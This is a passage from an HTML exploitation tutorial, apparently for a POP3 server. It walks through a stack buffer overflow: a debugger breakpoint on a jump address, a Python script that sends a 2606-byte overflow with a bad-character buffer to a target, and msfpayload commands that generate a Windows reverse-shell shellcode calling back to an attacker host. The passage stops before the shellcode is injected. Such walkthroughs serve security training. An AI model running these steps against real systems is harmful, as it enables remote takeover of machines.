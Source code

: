                     <li><span>We will set a breakpoint to that memory location <strong>5f4a358f</strong> and run the new exploit. We go to CPU view, right click, go to, expression and the address. Press F2 in ImmunityDebugger to set the breakpoint, the debugger should pause when sending the payload, and stepping into the next instruction (F7) should jump to a the top of the stack, where there should be 400 C. If there are less 'C', then the input has been truncated and you will probably need a bigger buffer to fit your shellcode.</span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='Finding bad characters'></a>
            <legend>Finding bad characters</legend>
                <ul>
                    <li><span>Next step is to generate a shellcode. Before doing that, we need to know what characters the application allows. We will send a buffer that contains all the ASCII characters:</span></li>
                <pre><code>import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
buffer = "A" * 2606 + "B" * 4 + badchars
try:
    print "\nSending evil buffer..."
    s.connect(('192.168.0.10', 110))
    s.send('GET ' + buffer + '\r\n\r\n')
    print s.recv(1024)
    s.close()
    print "\nDone!"
except:
    print "Could not connect"</code></pre>
                    <li><span>We run it, right click in the ESP address, and follow in dump to find potential bad characters that the application truncates. We should see the full ASCII character space. Some characters are more likely to be truncated (i.e. <strong>0x00</strong> as it is the end of string delimiter in C. In Pop3, new line char <strong>0xA</strong> as it is the command separator, etc..).</span></li>
                    <li><span>So we know how much padding we need to add to the stack to overwrite the EIP, we know an address that will get the execution flow redirected to the start of the stack, we just need to create a shellcode.</span></li>
                </ul>
        </fieldset>
        <fieldset class='box'>
            <a name='Injecting a shellcode'></a>
            <legend>Injecting a shellcode</legend>
                <ul>
                    <li><span>First step, is to generate the shellcode. You can list all available payloads in metasploit:</span></li>
                <pre><code>$ msfpayload -l</code></pre>
                    <li><span>Generate a reverse shell shellcode.</span></li>
                <pre><code>$ msfpayload windows/shell_reverse_tcp LHOST=192.168.0.10 LPORT=443  -f c</code></pre>